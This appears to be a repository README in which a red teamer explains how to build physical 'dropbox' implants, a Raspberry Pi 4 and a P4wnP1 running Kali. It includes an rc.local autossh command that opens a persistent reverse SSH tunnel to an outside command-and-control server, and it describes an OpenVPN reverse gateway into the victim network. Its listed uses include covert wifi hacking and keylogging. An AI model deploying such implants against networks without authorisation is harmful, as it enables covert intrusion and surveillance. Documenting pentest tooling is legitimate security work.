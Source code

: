 # dropbox
I have 2 raspberry pi's that I use for red teaming. One of them is p4wnp1 which is an HID hacking tool that is running Kali Linux on a raspberry pi zero.
I also have a raspberry pi 4 that I use as a dropbox. I will describe how I got this to work and how I set everything up.

## command and control server
To get this whole thing to work I need a command and control server.
This server can be used by the dropbox to connect to it.
This server must be always reachable otherwise the dropbox can't be connected to so will be useless.
This server can be a digital ocean server because I have a server at home I could also use that but for security reasons, I will use a digital ocean VPS.
I have created a droplet with the least resources because there isn't much required from this server.
![Digital Ocean](/images/digitalocean.png)

One of the key components of a dropbox is to get a connection remotely after dropping it somewhere.
This can be accomplished by a reverse ssh connection or a reverse VPN connection.
For this to work 

## Raspberry pi 4
I already have Kali Linux for arm installed on my raspberry pi 4 but this is not enough for using it as a dropbox.
To set this up you want it to be able to be dropped somewhere easy and fast and connect to it remotely after dropping it.

To get the dropbox to work I needed that kali to automatically login because if we don't do that the pi won't connect to the internet.
I have created keys and copied them to all the needed devices to have a secure connection with key authentication.

### Autossh
auto ssh needs to be installed this makes a connection with an ssh server and keeps monitoring it for reconnection.
I use keys for authentication these keys I copied before.
To make autossh work it needs to be running at bootup.
I used rc-local to run it on bootup by using this code in /etc/systemd/system/rc-local.service

```
[Unit]
 Description=/etc/rc.local Compatibility
 ConditionPathExists=/etc/rc.local
[Service]
 Type=forking
 ExecStart=/etc/rc.local start
 TimeoutSec=0
 StandardOutput=tty
 RemainAfterExit=yes
 SysVStartPriority=99
[Install]
 WantedBy=multi-user.target
```

I also added the next code to /etc/rc.local
```
#!/bin/bash -e
autossh -M $mp -fN -o "PubkeyAuthentication=yes" -o "StrictHostKeyChecking=false" -o "PasswordAuthentication=no" -o "ServerAliveInterval 60" -o "ServerAliveCountMax 3" -R $FUID:localhost:22 -i /root/.ssh/id_rsa $cncuser@$cncip &
exit 0
```

After setting up all of this I can ssh into the pi 4 without being connected to the same network through the command and control server.

## Improvements
I have attached a wireless USB adapter to have more range and wifi hacking possibilities.
I also handmade a small ethernet cable to make it more convenient when dropping it and making it less bulky.
There is an external battery to make it possible to drop in places where you can't use a wall socket.
After some time with tinkering around with the autossh, I thought it would be better to use a [reverse vpn](#reverse-VPN-gateway) that way I have full access over the machine not only ssh.
This I will do in combination with the auto ssh to always have a backup if anything goes wrong with one of them.
![pi4 dropbox](/images/dropboxpi4.jpg)

## P4wnp1
The p4wnp1 is running a full set of Kali Linux it also has access to HID attacks.
Because of this, it is really interesting to make this toolkit remotely accessible.
This way you have a small machine with all the potential without having to stay at a certain location
You don't have many resources but that is not always needed.
The only downside is that without any adapters you only have wifi to access the internet.
So you need to have the wifi password to use p4wnp1 as a dropbox.

### Reverse VPN gateway
Because we want full access to the p4wnp1 we can use a VPN server.
But not only can we make our VPN server let us access our p4wnp1.
We can also make it a reverse VPN Gateway and by doing that we can access the whole network the p4wnp1 is connected to.
This reverse VPN gateway is also handy to use with my raspberry pi 4.

I can do this by using the same command and control server.
I will install OpenVPN on the server and after that configure the p4wnp1 to work as a reverse VPN gateway.

When OpenVPN is installed you can open the admin page most of the things are already set up correctly.
You have to add a user for your pentesting machine mine is called Merlijn and one for your dropbox mine is called dropbox.
These two should have auto login permissions especially the dropbox.
![openvpn users](/images/users.png)

When both of the users are added you should go into more settings of dropbox and enable VPN gateway.
Here you have to specify what network the gateway should work on I have set the most used network 192.168.1.1/24
this can later be changed or extended depending on your target.
![openvpn gateway](/images/gateway.png)

After setting this all up I can just connect to the OpenVPN server with my kali machine.
When connected to the OpenVPN server I can now access the network my dropbox is connected to.
Both the clients/ client and gateway are connected.
![openvpn gateway](/images/connected.png)


TODO traceroute


# Usages
these dropboxes can be used for multiple things.
- remotely have access to a pentest location.
- remotely doing some wifi hacking without being noticed for being a long time in a place.
- Getting access to a secured environment without staying there for too long.
- in the case of p4wnp1 remotely executing HID attacks or keylogging.